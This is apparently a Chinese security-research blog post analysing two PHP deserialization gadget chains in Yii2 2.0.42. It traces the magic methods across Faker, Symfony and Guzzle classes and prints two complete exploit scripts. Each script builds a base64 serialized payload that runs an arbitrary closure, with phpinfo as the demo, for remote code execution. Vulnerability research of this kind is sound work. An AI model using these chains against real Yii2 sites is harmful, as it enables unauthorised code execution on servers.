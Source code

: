 环境搭建请看前篇，直接切入正题，由于最近比较忙，部分地方就不那么详细分析变量构造由来了，跟着exp分析一下就可以了

### pop3

[![](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-889bbc3d939dab2ba13945ce5fa3f5c065b7b7c4.png)](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-889bbc3d939dab2ba13945ce5fa3f5c065b7b7c4.png)  
起手的地方还是一样的，毕竟就只剩下这么个起手点了，下面要更换的是`__call()`魔术方法所在的类，把目光转向这里，其实和第一条大差不差，为了有一点区别还是换了一个  
`vendor\fakerphp\faker\src\Faker\UniqueGenerator.php`  
[![](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-28f950bcfec0f6b0619b86fbc1963eac5b70ea76.png)](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-28f950bcfec0f6b0619b86fbc1963eac5b70ea76.png)  
这里的`$res`利用第一条链子中用到的类是能够让返回值可控的，也就是说此处的`$res`为可控变量；第三条链的关键点在于利用`__sleep()`魔术方法，在序列化一个对象时，如果类中存在该方法会优先调用该魔术方法;全局搜索  
`vendor\symfony\string\LazyString.php`  
[![](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-9e8796f249fb7561259dec03d8fe8f1b3808ab34.png)](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-9e8796f249fb7561259dec03d8fe8f1b3808ab34.png)  
之后会调用本类中的`__toString()`魔术方法，跟进  
[![](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-6f627ec4170f0686b73a11beb0e9876898d974a0.png)](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-6f627ec4170f0686b73a11beb0e9876898d974a0.png)  
可以看到利用点在`($this->value)()`，这种形式一看就是动态调用无参函数；这里要注意点的是第一个if条件语句，我们传入的参数值肯定会是一个字符串才能够动态调用，这里只有让if判断条件不成立程序逻辑才会到达最后的利用点处  
这里还是要用到`\Opis\Clsure`方法序列化匿名函数，这里可以写一个例子  
[![](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-09e6ba00769d5ade54e4c5cf33a5cc05608919f8.png)](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-09e6ba00769d5ade54e4c5cf33a5cc05608919f8.png)  
可以看到是能够直接绕过`is_string()`函数判断的  
至于为什么会是这样师傅们可以自己研究一下子  
解决了这一步那就可以rce了  
exp

```php
<?php
/***
 * Created by joker
 * Date 2021/9/17 16:20
 ***/
namespace Codeception\Extension;
use Faker\UniqueGenerator;
class RunProcess{
    private $processes;
    public function __construct()
    {
        $this->processes = [new UniqueGenerator()];
    }
}

namespace Faker;
use Symfony\Component\String\LazyString;
use Faker\DefaultGenerator;
class UniqueGenerator{
    protected $generator;
    protected $maxRetries;
    public function __construct()
    {
        $a = new LazyString();
        $this->generator = new DefaultGenerator($a);
        $this->maxRetries = 2;

    }
}
namespace Faker;
class DefaultGenerator{
    protected $default;
    public function __construct($default = null)
    {
        $this->default = $default;
    }
}

namespace Symfony\Component\String;
use Codeception\Extension\RunProcess;

class LazyString{
    private $value;
    public function __construct()
    {
        include("../test/closure/autoload.php");
        $a = function(){phpinfo();};
        $a = \Opis\Closure\serialize($a);
        $b = unserialize($a);
        $this->value = $b;
    }
}
$a = new RunProcess();
echo base64_encode(serialize($a));

```

[![](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-a77828ccff0215034dd06dac2c87a2c3c9380122.png)](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-a77828ccff0215034dd06dac2c87a2c3c9380122.png)

### pop4

入口依然不变，只不过这次换个跳板函数，转向`__toString()`魔术方法，php基本就是这两种做跳板  
[![](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-29cd76c73ffa7ca47063e3362a92635248f3b9a5.png)](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-29cd76c73ffa7ca47063e3362a92635248f3b9a5.png)  
这里进行了字符串的拼接，只需要让`$process`为类对象就可以触发类中的`__toString()`方法，这里这个`getCommandLine()`方法没有，所以还是需要用到第一条链中的`__call()`方法来让返回值可控，全局搜索  
`vendor\guzzlehttp\psr7\src\AppendStream.php`  
[![](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-ff3ce02b174e1303bbbe068d7611dcf7608ec773.png)](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-ff3ce02b174e1303bbbe068d7611dcf7608ec773.png)  
跟进`rewind（）`方法  
[![](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-c8cc354332dff807bbe6080868985cfff98193c1.png)](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-c8cc354332dff807bbe6080868985cfff98193c1.png)  
[![](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-02182a1be63705e60c6ab52ba50cc636304c8074.png)](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-02182a1be63705e60c6ab52ba50cc636304c8074.png)  
`$this->seekable`默认值为true，`$whence`默认值为`SEEK_SET`，所以程序会顺利向下，`$this->streams`变量可控，程序会走到断点处，这里调用了其它类中的`rewind()`方法，追踪发现是一个接口类，找到继承了该接口类的子类  
`basic\vendor\guzzlehttp\psr7\src\CachingStream.php`  
[![](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-0fc1f77fca0f4d5dc8af46be4a76436927b288ba.png)](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-0fc1f77fca0f4d5dc8af46be4a76436927b288ba.png)  
[![](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-a7768243003e1744790efc65d014c84f1bf5baab.png)](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-a7768243003e1744790efc65d014c84f1bf5baab.png)  
这里要让while条件成立才会往下，查看类中`eof()`方法  
[![](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-66874146283b26cd50bf20a7e72349665ced5568.png)](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-66874146283b26cd50bf20a7e72349665ced5568.png)  
只需要让`$this->remoteStream`的值为false，返回值就会为false，在while中的部分会回取反为true,`$diff`的取值看exp就知道来源了  
跟进`read()`方法  
[![](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-f1a2a3937915ee948986e02bf8439b22d4131cf9.png)](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-f1a2a3937915ee948986e02bf8439b22d4131cf9.png)  
`$this->stream`可控，到这里`read()`方法还是会指向接口类，所以需要找到新的继承类保证利用链能够走下去，这也就是为什么要让`$this->stream`为`PumpStream`类对象  
`vendor\guzzlehttp\psr7\src\PumpStream.php`  
[![](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-16e2b57d325fbf3e39c65d19c137d3cf782cad4d.png)](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-16e2b57d325fbf3e39c65d19c137d3cf782cad4d.png)  
跟进`pump`方法  
[![](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-404768abdb68dc65abbfdff7a29aed87a2ee2629.png)](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-404768abdb68dc65abbfdff7a29aed87a2ee2629.png)  
熟悉的地方，`$this->source`可控，只需要让传递过来的`$length`可控就可以了  
部分参数的取值可以跟着exp分析一下，就不多说了

```php
<?php
/***
 * Created by joker
 * Date 2021/9/19 18:01
 ***/
namespace Codeception\Extension;
use Faker\DefaultGenerator;
use GuzzleHttp\Psr7\AppendStream;
class  RunProcess{
    protected $output;
    private $processes = [];
    public function __construct(){
        $this->processes[]=new DefaultGenerator(new AppendStream());
        $this->output=new DefaultGenerator('joker');
    }
}
namespace Faker;
class DefaultGenerator
{
    protected $default;

    public function __construct($default = null)
    {
        $this->default = $default;
    }
}

namespace GuzzleHttp\Psr7;
use Codeception\Extension\RunProcess;
use Faker\DefaultGenerator;
final class AppendStream{
    private $streams = [];
    private $seekable = true;
    public function __construct(){
        $this->streams[]=new CachingStream();
    }
}
final class CachingStream{
    private $remoteStream;
    public function __construct(){
        $this->remoteStream=new DefaultGenerator(false);
        $this->stream=new  PumpStream();
    }
}
final class PumpStream{
    private $source;
    private $size=-10;
    private $buffer;
    public function __construct(){
        $this->buffer=new DefaultGenerator('j');
        include("../test/closure/autoload.php");
        $a = function(){phpinfo();};
        $a = \Opis\Closure\serialize($a);
        $b = unserialize($a);
        $this->source=$b;
    }
}
$a = new RunProcess();
echo base64_encode(serialize($a));
```

### 总结

yii2.0.42的反序列化就到这里了，还是靠耐心吧，加上对魔术方法的利用，这几条链都离不开那个可控返回值的类，修复的话2.0.43已经做的差不多了。